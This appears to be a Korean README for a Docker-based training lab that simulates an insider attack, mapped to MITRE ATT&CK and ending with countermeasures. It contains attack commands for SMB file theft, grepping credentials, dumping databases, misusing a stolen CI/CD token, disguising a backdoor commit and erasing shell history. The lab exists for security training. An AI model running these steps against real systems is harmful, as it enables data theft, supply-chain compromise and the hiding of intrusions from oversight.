

<div align="center">

# 🕵️ Sub-Scenarios: 내부자 위협 시뮬레이션
**Insider Threat Attack Scenarios — SK쉴더스 실습 환경**


**불만을 품은 내부 개발자**가 정상 업무 권한만으로 프로덕션 서버에 백도어를 삽입하고 기업 기밀을 유출하는 전 과정을 시뮬레이션합니다.

---
</div>

## ⚔️ 기존 시나리오(`run.py`)와의 차별점

| 구분 | 기존 시나리오 (외부 공격) | 신규 시나리오 (내부자 위협) |
|------|:---:|:---:|
| **공격자** | 외부 해커 | 내부 불만 직원 |
| **시작점** | Spring Web (외부 진입점) | Employee Desktop (내부망) |
| **초기 접근** | CVE-2022-22965 익스플로잇 | 정상 업무 권한 사용 |
| **주요 기법** | RCE → 횡이동 → DB 탈취 | 권한 남용 → 공급망 공격 → 기밀 유출 |
| **최종 목표** | 고객 DB 데이터 탈취 | 프로덕션 백도어 + 제품 설계도 유출 |
| **MITRE ATT&CK** | `T1190` 외부 앱 익스플로잇 | `T1078` 유효 계정 남용 |

> [!NOTE]
> 이 시나리오는 보안 장비(IPS/WAF)가 탐지하기 극히 어렵고, 소프트웨어 패치와 무관하게 동작합니다. 가장 실무적인 APT 위협을 다룹니다.

---

## 🚀 빠른 시작

```bash
# 전제 조건: 01.TestServer Docker 환경 실행
cd 01.TestServer && docker compose up -d

# 루트 폴더에서 바로 실행 가능 (CD 이동 불필요)
python3 sub_run.py
```

> [!TIP]
> 실행이 끝나면 `03.FinalReport/` 폴더에 내부자 위협 시뮬레이션 **HTML 보고서**가 자동 생성됩니다.

---

## 🗺️ 6단계 공격 타임라인



### Phase 1 — 정찰 (Reconnaissance) `Risk: Low`
> 내부자의 시작 환경 확인 — Desktop 권한, NAS 마운트, 네트워크 구조 파악

정상 업무 행위와 구분이 거의 불가능합니다. 내부망 서비스 탐색 및 접근 가능한 리소스를 조용히 파악합니다.

### Phase 2 — NAS 기밀 탈취 (Data Exfiltration) `Risk: Critical`
> NAS SMB 서버에서 제품 설계도(21개 파일)와 TeamCity API 토큰 탈취

별도의 취약점 없이 **업무 권한의 SMB 클라이언트**만으로 NAS에 마운트하여 핵심 기밀을 복사합니다.

```bash
smbclient //nas/data -U smbuser%smbpass
smb: \> ls
smb: \> get product_blueprint.pdf
smb: \> get keys/teamcity_access_token
```

### Phase 3 — 크리덴셜 수집 (Credential Harvesting) `Risk: High`
> 소스코드 및 환경변수에서 하드코딩된 DB 접속 정보 추출

프로젝트 소스코드(`application.properties`)에 하드코딩된 DB 크리덴셜을 수거합니다.

```bash
grep -r "password" --include="*.properties" --include="*.yml" .
# 결과: spring.datasource.password=spring_pass
```

### Phase 4 — 내부 DB 접근 (Lateral Movement) `Risk: Critical`
> 획득한 크리덴셜로 내부 MySQL DB 직접 접속 — 고객/직원 정보 전량 탈취

```bash
mysql -h spring-db -u spring_user -pspring_pass spring_db -e "SELECT * FROM users;"
mysql -h struts-db -u struts_user -pstruts_pass struts_db -e "SELECT * FROM employees;"
```

### Phase 5 — 공급망 공격 (Supply Chain Attack) `Risk: Critical`
> TeamCity 토큰으로 CI/CD 장악 → Gitea에 악성 코드 push → 프로덕션 자동 배포

```bash
# NAS에서 탈취한 토큰으로 TeamCity API 직접 호출
TOKEN=$(cat /home/kasm-user/nas/keys/teamcity_access_token)
curl -H "Authorization: Bearer $TOKEN" http://teamcity-server:8111/app/rest/buildTypes
```

### Phase 6 — 백도어 삽입 & 흔적 은폐 (Persistence) `Risk: Critical`
> 정상 commit 메시지로 위장하여 백도어 코드 push → CI/CD 배포 → 히스토리 삭제

```bash
# Gitea에 백도어 커밋 후 TeamCity 자동 배포 유도
git add -A && git commit -m "fix: improve health check endpoint performance"
git push origin main

# 흔적 은폐
history -c && rm -f ~/.bash_history
```

---

## 🌐 내부망 서비스 맵

| 서비스 | Docker 서비스명 | 포트 | 접근 방식 |
|:---|:---|:---:|:---|
| **Employee Desktop** | `employee-desktop` | 6901 | 내부자 시작점 (VNC 웹브라우저) |
| **Gitea** | `gitea` | 3000 | 직접 접근 — 소스코드 push 권한 |
| **TeamCity** | `teamcity-server` | 8111 | 직접 접근 — CI/CD 웹 UI |
| **NAS** | `nas` | 445 | SMB 직접 마운트 |
| **Spring DB** | `spring-db` | 3306 | 크리덴셜 획득 후 접근 |
| **Struts DB** | `struts-db` | 3306 | 크리덴셜 획득 후 접근 |
| **Spring Web** | `spring` | 8011 | CI/CD 간접 접근 (배포 대상) |

> [!IMPORTANT]
> IP 주소는 Docker 배포 환경마다 다릅니다. 아래 명령어로 자신의 환경에서 직접 확인하세요.
> ```bash
> docker network inspect 01testserver_default \
>   --format '{{range .Containers}}{{.Name}}: {{.IPv4Address}}{{"\\n"}}{{end}}'
> ```

---

## 🎯 MITRE ATT&CK 매핑

| MITRE ID | Tactic | Technique | Phase |
|:---:|:---|:---|:---:|
| `T1078` | Initial Access | Valid Accounts | Phase 1 |
| `T1052` | Exfiltration | Exfiltration Over Physical Medium (SMB) | Phase 2 |
| `T1552` | Credential Access | Unsecured Credentials in Files | Phase 3 |
| `T1078.002` | Lateral Movement | Valid Accounts: Domain Accounts | Phase 4 |
| `T1195` | Initial Access | Supply Chain Compromise | Phase 5 |
| `T1543` | Persistence | Create or Modify System Process | Phase 6 |
| `T1070` | Defense Evasion | Indicator Removal on Host | Phase 6 |

---

## 🛡️ 대응 방안 (Countermeasures)

| 중요도 | 조치 방안 |
|:---:|:---|
| 🔴 **긴급** | 소스코드 내 하드코딩된 크리덴셜 제거 → Vault/Secret Manager 도입 |
| 🔴 **긴급** | NAS 접근 권한 최소화 — 파일별 ACL 적용, 불필요한 SMB 마운트 제거 |
| 🟠 **경보** | TeamCity API 토큰을 NAS에 평문 저장 금지 → 암호화 저장 |
| 🟠 **경보** | Gitea PR 필수 코드리뷰 정책 + main 브랜치 직접 push 차단 |
| 🟡 **주의** | 내부 사용자 행동 분석 (UBA) 솔루션 도입 — 비정상 파일 접근 탐지 |
| 🟡 **주의** | CI/CD 파이프라인 변경 사항 감사 로그 별도 보관 |

---

<div align="center">
  <sub>Created with 💻 Team EQST & AI Assistant | SubScenarios_v0.2 기반</sub>
</div>
